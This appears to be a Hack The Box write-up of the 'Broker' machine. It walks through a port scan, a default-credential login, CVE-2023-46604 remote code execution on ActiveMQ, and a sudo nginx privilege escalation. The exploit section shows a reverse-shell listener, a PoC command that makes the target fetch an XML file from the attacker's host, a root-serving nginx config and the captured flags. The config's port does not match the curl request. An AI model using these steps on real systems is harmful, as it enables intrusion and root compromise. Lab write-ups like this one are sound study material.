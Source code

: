 ```yaml
---
layout: post
title: Broker HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
image:
  path: /images/htb/easy/broker/icon.png
---
```


Another easy, (and my first retired) machine!

**Machine created by:** [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Let's start with a port scan:

```
$ sudo nmap 10.10.11.243 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 07:20 AEDT
Nmap scan report for 10.10.11.243
Host is up (0.014s latency).
Not shown: 2492 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
1883/tcp  open  mqtt
5672/tcp  open  amqp
9001/tcp  open  tor-orport
9003/tcp  open  unknown
61613/tcp open  unknown
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.243 broker.htb
```

Visiting [broker.htb](http://broker.htb:80) prompts authentication, which out of instinct I inputted `admin:admin` and it succeeded :p

![Main](/images/htb/easy/broker/main.png)

## Exploitation

Looking for CVEs on ActiveMQ I found [CVE-2023-46604 RCE PoC](https://github.com/evkl1d/CVE-2023-46604) and I setup a listener.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

After cloning the PoC I edited the XML to be my private IP and port, then hosted it locally using `python3 -m http.server`.

I then ran the PoC:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.***.***:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.***.***:8000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a383030302f706f632e786d6c
```

And I recieve a response!

```
[07:28:01] 10.10.11.243:49786: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.243:49786
           established
```

## User Flag

I then see I'm the user `activemq` and read the user flag.

```
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
c8293361b3c30407ee77164ebe96aa6d
```

And there's the user flag! <mark>c8293361b3c30407ee77164ebe96aa6d</mark>

## Root Flag

Running `sudo -l` shows an entry:
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking at the options for `nginx` we can supply a custom config:

```
$ sudo /usr/sbin/nginx
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```

We can make a new config in `/tmp/newconf.conf` (documentation from [Nginx Docs](https://www.nginx.com/resources/wiki/start/topics/examples/full/)):

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9999;
        root /;
    }
}
```

and then just read the root flag!

```
$ curl -L "http://localhost:1337/root/root.txt"
353a4607eef11ca5b7e6cff7464afd66
```

There's the root flag! <mark>353a4607eef11ca5b7e6cff7464afd66</mark>

![Success](/images/htb/easy/broker/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).